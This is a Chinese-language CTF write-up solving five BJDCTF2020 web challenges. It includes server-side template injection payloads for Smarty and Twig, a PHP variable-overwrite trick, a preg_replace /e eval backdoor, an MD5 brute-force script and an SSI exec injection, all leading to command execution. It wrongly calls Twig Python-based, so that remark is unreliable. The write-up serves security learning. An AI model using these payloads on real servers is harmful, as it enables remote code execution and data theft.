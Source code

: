 # BJDCTF2020 Write Up

## 0x01 [BJDCTF2020]The mystery of ip

提示IP,发现是``X-Forwarded-For``搞的

fuzz一下发现有模板注入漏洞

这里的渲染引擎是基于PHP的smarty

Poc:``{{system("<cmd>")}}``

## 0x02 [BJDCTF2020]Cookie is so stable

和上题一样是模板注入，不过注入点在Cookie里

渲染引擎也换成了基于Python的Twig

从网上找到的 Twig poc
```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}
```

## 0x03 [BJDCTF2020]Mark loves cat

进去看了一下没事注入点似乎

扫下目录发现
```
Target: http://ae5480b9-ea51-4d2a-8741-c8968aa682f8.node3.buuoj.cn/

[19:51:17] Starting:
[19:51:20] 200 -   73B  - /.git/description
[19:51:20] 200 -   23B  - /.git/HEAD
[19:51:20] 301 -  169B  - /.git  ->  http://ae5480b9-ea51-4d2a-8741-c8968aa682f8.node3.buuoj.cn/.git/
[19:51:20] 200 -  137B  - /.git/config
[19:51:21] 200 -    6KB - /.git/index
[19:51:22] 403 -  555B  - /.git/
[19:51:23] 200 -   28KB - /index.php
[19:51:30] 200 -    0B  - /flag.php

Task Completed
```

考虑用Githack 来获取源码

```php
<?php

include 'flag.php';

$yds = "dog";
$is = "cat";
$handsome = 'yds';

foreach($_POST as $x => $y){
    $$x = $y;
}

foreach($_GET as $x => $y){
    $$x = $$y;
}

foreach($_GET as $x => $y){
    if($_GET['flag'] === $x && $x !== 'flag'){
        exit($handsome);
    }
}

if(!isset($_GET['flag']) && !isset($_POST['flag'])){
    exit($yds);
}

if($_POST['flag'] === 'flag'  || $_GET['flag'] === 'flag'){
    exit($is);
}



echo "the flag is: ".$flag;
```

如果要拿到flag 我们要保证GET和POST上设定了flag变量

但是根据

```php
foreach($_POST as $x => $y){
    $$x = $y;
}
```
这样后面的``$flag``就会被我们覆盖，拿不到值

但是``exit()``和``die()``一样，所以我们只要把

```php
$yds = "dog";
$is = "cat";
$handsome = 'yds';
```
这几个变量改成``$flag``就可以了

PHP中``$$a``可以理解为``${$a}``

```php
foreach($_GET as $x => $y){// yds => flag
    $$x = $$y; // $yds = $flag
}
```
## 0x04 [BJDCTF2020]ZJCTF不过如此

第一层用``php://input``传值，用``php://filter/convert.base64-encode/resource=next.php``看源码

拿到

```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}
```
很显然这里利用``pregmatch \e``调用``getFlag``后门

为了匹配 我们这里设置``$re=\S*``匹配所有非空字符

payload:``/next.php?\S*=${getFlag()}&cmd=<cmd>``


## 0x05 [BJDCTF2020]EasySearch

进去是一个登陆界面，试了一下万能密码都不行，也没有报错信息

扫一下是否有源码泄露，拿到了index.php.swp

```php
<?php
	ob_start();
	function get_hash(){
		$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
		$random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
		$content = uniqid().$random;
		return sha1($content); 
	}
    header("Content-Type: text/html;charset=utf-8");
	***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
			***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
			echo "[!] Header  error ...";
        } else {
            echo "<script>alert('[!] Failed')</script>";
            
    }else
    {
	***
    }
	***
?>
```
可以看到只要满足

``$admin == '6d0bc1' == substr(md5($_POST['password']),0,6)``

随便跑个脚本找下

```python
#coding=utf-8
import hashlib
for i in range(10000000):
    payload=str(i).rjust(7,"0")
    md5 = hashlib.md5(payload.encode('utf-8')).hexdigest()
    if ((md5[0:6])=='6d0bc1'):
        print payload  #2020666
        break
```

然后根据源码应该就是利用可控的``$_POST['username']``向生成的``.shtml``文件里注入恶意代码了

SSI Poc
```
<!--#exec cmd="<cmd>"-->
```

返回的报文会提供生成的shtml文件目录

至此我们便可以RCE了

### 参考资料

一篇文章带你理解漏洞之SSTI漏洞:

[https://www.k0rz3n.com/2018/11/12/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E7%90%86%E8%A7%A3%E6%BC%8F%E6%B4%9E%E4%B9%8BSSTI%E6%BC%8F%E6%B4%9E](https://www.k0rz3n.com/2018/11/12/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E7%90%86%E8%A7%A3%E6%BC%8F%E6%B4%9E%E4%B9%8BSSTI%E6%BC%8F%E6%B4%9E)